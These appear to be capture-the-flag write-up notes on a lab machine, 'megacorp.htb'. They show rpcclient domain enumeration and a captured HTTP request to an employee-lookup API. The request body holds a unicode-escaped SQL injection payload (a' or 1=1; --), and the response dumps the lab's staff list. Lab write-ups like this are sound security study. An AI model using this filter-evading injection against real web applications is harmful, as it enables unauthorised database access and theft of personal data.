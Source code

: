 lots of ports open

```text
rpcclient $> lsaquery
Domain Name: MEGACORP
Domain Sid: S-1-5-21-3167813660-1240564177-918740779
```

Capturing the burp request to the `/api/get/Colleagues`

```text
POST /api/getColleagues HTTP/1.1
Host: 10.10.10.179
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: application/json, text/plain, */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://10.10.10.179/
Content-Type: application/json;charset=utf-8
Content-Length: 91
Connection: close
DNT: 1

{"name":"\u0061\u0027\u0020\u006F\u0072\u0020\u0031\u003D\u0031\u003B\u0020\u002D\u002D"}
```

This is the unicode escaped equivilent of `a' or 1=1; --` And the response:

```text
HTTP/1.1 200 OK
Cache-Control: no-cache
Pragma: no-cache
Content-Type: application/json; charset=utf-8
Expires: -1
Server: Microsoft-IIS/10.0
X-AspNet-Version: 4.0.30319
X-Powered-By: ASP.NET
Date: Mon, 20 Jul 2020 20:34:22 GMT
Connection: close
Content-Length: 1821

[{"id":1,"name":"Sarina Bauer","position":"Junior Developer","email":"sbauer@megacorp.htb","src":"sbauer.jpg"},{"id":2,"name":"Octavia Kent","position":"Senior Consultant","email":"okent@megacorp.htb","src":"okent.jpg"},{"id":3,"name":"Christian Kane","position":"Assistant Manager","email":"ckane@megacorp.htb","src":"ckane.jpg"},{"id":4,"name":"Kimberly Page","position":"Financial Analyst","email":"kpage@megacorp.htb","src":"kpage.jpg"},{"id":5,"name":"Shayna Stafford","position":"HR Manager","email":"shayna@megacorp.htb","src":"shayna.jpg"},{"id":6,"name":"James Houston","position":"QA Lead","email":"james@megacorp.htb","src":"james.jpg"},{"id":7,"name":"Connor York","position":"Web Developer","email":"cyork@megacorp.htb","src":"cyork.jpg"},{"id":8,"name":"Reya Martin","position":"Tech Support","email":"rmartin@megacorp.htb","src":"rmartin.jpg"},{"id":9,"name":"Zac Curtis","position":"Junior Analyst","email":"zac@magacorp.htb","src":"zac.jpg"},{"id":10,"name":"Jorden Mclean","position":"Full-Stack Developer","email":"jorden@megacorp.htb","src":"jorden.jpg"},{"id":11,"name":"Alyx Walters","position":"Automation Engineer","email":"alyx@megacorp.htb","src":"alyx.jpg"},{"id":12,"name":"Ian Lee","position":"Internal Auditor","email":"ilee@megacorp.htb","src":"ilee.jpg"},{"id":13,"name":"Nikola Bourne","position":"Head of Accounts","email":"nbourne@megacorp.htb","src":"nbourne.jpg"},{"id":14,"name":"Zachery Powers","position":"Credit Analyst","email":"zpowers@megacorp.htb","src":"zpowers.jpg"},{"id":15,"name":"Alessandro Dominguez","position":"Senior Web Developer","email":"aldom@megacorp.htb","src":"aldom.jpg"},{"id":16,"name":"MinatoTW","position":"CEO","email":"minato@megacorp.htb","src":"minato.jpg"},{"id":17,"name":"egre55","position":"CEO","email":"egre55@megacorp.htb","src":"egre55.jpg"}]
```
